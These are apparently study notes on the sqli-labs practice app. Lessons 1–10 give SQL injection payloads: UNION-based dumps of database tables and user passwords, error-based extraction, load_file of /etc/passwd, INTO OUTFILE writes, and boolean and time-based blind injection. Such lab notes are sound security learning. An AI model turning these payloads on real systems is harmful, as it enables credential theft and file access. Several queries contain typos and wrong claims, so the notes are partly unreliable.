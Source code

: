 # sqli_labs
## lesson1
### Error-Based: Single Quotes,String
  * ?id=1 or any other number gives the respective username and password, similar to the query: select * from TABLE where id=1;
  * In the url after trying some special cases, we find that odd number of single quotes breaks the query and also string input throwing error.
  * Error:  right syntax to use near ””) LIMIT 0,1′ at line 1.
  * ?id=1′)–-+  : this gives us back the username and password. (here -- is used to comment out rest of the things).
  * Commonly used injections like ' OR '1'='1--
  * OR '1'='1' /*  in url after execution it would be like ?OR%20%271%27=%271%27%20/*
  * ?id=-1' union select 1,2,database() --+
  * SELECT username,password from 'users' WHERE '?id'=0 OR 1=1; (here 1=1 is equivalent to true).
  * SELECT username,password from 'users' WHERE ?id=9 trying out different id no.s we get the desired output when id is 9.
  * URL: select * from users where id='-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database();-- -


## lesson2
### Error-Based: IntegerBased
  * when we give ?id=1- we see the error as right syntax to use near'LIMIT 0,1' at line 1 (query broke)
  * error that extra " and 'quotes are present which means that the input is enclosed in them.
  * Select * from TABLE where id = 1’ ;
  * so there is use of integer for the query
  * Select * from TABLE where id = (some integer value);
  * SELECT username,password FROM TableName WHERE id=1--;
  * if we comment out the id number as (-- is used to comment out the input): http://localhost/sqli-labs/Less-2/?id=1 -- 
  * we receive the username and password.

## lesson3
### Error-Based: Single quotes (string)
  * when we give ?id=1- we see the error as right syntax to use near ””) LIMIT 0,1′ at line 1 (query broke)
  * Select login_name, select password from table where id= (‘our input here’)
  * So again we inject the code with this ?id=1′) -–+'    
  * we get back the output username and password.

## lesson4
### Error-Based: Double quotes (string)
  * After some unsuccessful attempts, we perform an error-based double quotes attack
  * ?id=1’’ injecting the code we can see a username and password.
  * we try to dump the database to retrieve some sensitive information. 
  * So here we use the union select command to dump the database like this: ?id=1’’) union select 1,2,3 –+
  * (here 1,2,3 is used since we assume 3 columns there, u can also try with 1,2)
  * Now we start mysql to dump database:
  * show databases;  -->to show databases
  * use security;  -->this helps to use the database security(which has important information)
  * show tables;  -->this helps to view the table, we can see four tables like users,emails,referers,uagents
  * We use system database, which is information_schema using the command: use information_schema;
  * See tables using "show tables;" command
  * Query : select table_name from information_schema, tables where table_schema = “security”;
  * inject the same query into the URL : ?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+
  * Query : ?id=1”) union select 1,group_concat(table_name)3 from information_schema.tables where table_schema=’security’ – -+  
  * (group together all the table names and dump it out as a string)
  * Query : ?id=1′ union select 1,group_concat(username),group_concat(password) from users –+

## lesson5
### Fixing the query without using comments
  * Error-based double quotes injection attack as shown below.
  * when ?id=2 or any other integer we get the message you are in ....
  * it is not similar to username and password as shown before
  * by giving the single quotes query gets broken, to see the developers format of query, we use escape character(\)
  * Query : ?id=1′ AND ‘2 (OR) ?id=3′ AND ‘4
  * 
  * After injecting this type of code, the database always shows different usernames and passwords.
  * URL : ?-6′ union select 5,current_user,3 AND ‘1
  * We use this query for getting the current username.

## lesson6
### Double quote injection
  * ?id=2 try giving in the url 
  * Injecting the query, we can see an sql error message on the screen.
  * We start from the count function, which just returns us the number of rows.
  * select count(*) from informatio_schema.tables;
  * select rand(); --> gives random values between 0 and 1
  * select floor(); -->  prints the integer part alone
  * select floor(rand()*2)as dumb; --> gives either 0 or 1 as output
  * select table_name, table_schema from information_schema.tables group by table_schema; --> can see only email under security database
  * Dumping the database in the form of a sql error:
     - select concat((select database()))  --> used to dump the string
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a)  --> here 0x3a is for quote
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a  --> renamed as a
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns
     - select count(*), concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
     - select count(*), concat(0x3a,0x3a,(select table_name from),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
     - select count(*), concat(0x3a,0x3a(select version()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a; (dump version)
     - select count(*), concat(0x3a,0x3a(select user()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a; (dump user)

## lesson7
### Using out file dump database
  * ?id=1′–+  (sql query broke)
  * use security;
  * select * from users;
  * select * from users limit 0,1 into dumpfile “/tmp/test2.txt”  (for dumping the database)
  * select load_file(“etc/passwd”);  (for loading files from the file system into mysql)
  * select load_file(“etc/passwd”) into outfile “tmp/test4.txt”; (combination of the above 2)
  * query will be : ?id=2′)) union select 1,2,3 into outfile “/var/www/sqli-labs/Less-7/union2.txt” –+
  * checking the Less-7/union2.txt file after this gives us the data or info as output

## lesson8
### Blind sqli Boolean-based single quotes
  *  Injecting some queries we see that we do not have an error message on the screen. 
  *  We are not sure here that the injection exists on this page or not, that's why this type of injection is called blind injection. 
  *  There are two types of blind injection, Boolean-based and Time-based injections.
  *  use security;
  *  select length(database());
  *  select substr(database(),1,1); --> substring is a part of the string
  *  select ascii(substr(database(),1,1)); --> ans:115 (s) (to get the ascii value of the substring)
  *  select ascii(substr(database(),2,1)); --> ans:101 (e) (like this we can find character one by one)
  *  select ascii(substr(database(),2,1)) = 101;  --> value returned is true
  *  select ascii(substr(database(),2,1)) < 101;  --> returns false since ascii value not less than 101
  *  ?id=1′ AND (ascii(substr((select database()) ,3,3)) = 99 --+  (this query is true, so message like 'you are in ....' is printed)
  *  for any other invalid value it gives no message as before
  *  id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) = 101 –+  (message you are in...)
  *  so 1st letter is e as value is 101, e stands for email

## lesson9 and lesson10
### Blind sqli Boolean-based single quotes
  * In this lesson we can't see an error that we have tampered the query, which results in Mysql error. 
  * So now it makes us check whether SQL injection is possible and we will also use sleep command in mysql.
  * Query select if((select database()=”security”, sleep(10), null); we get the response 10s after sleep, giving us the result that a database security exists.
  * This is also known as a time-based SQL query. 
  * Similarly if we try to run the query select if ((select database()=”securi”, sleep(10), null); 
  * There is no time-based response from the SQL server which means that such a database does not exist.
  * Now we do the same thing in our browser query.
  * We alter the parameter with ?id=1′ and ((select database()=”security”, sleep(10), null);
  * There is a waiting response from the browser. Since the query was able to detect the database it gives us the response. 
  * If the database name were incorrect, we would not have got a waiting response.




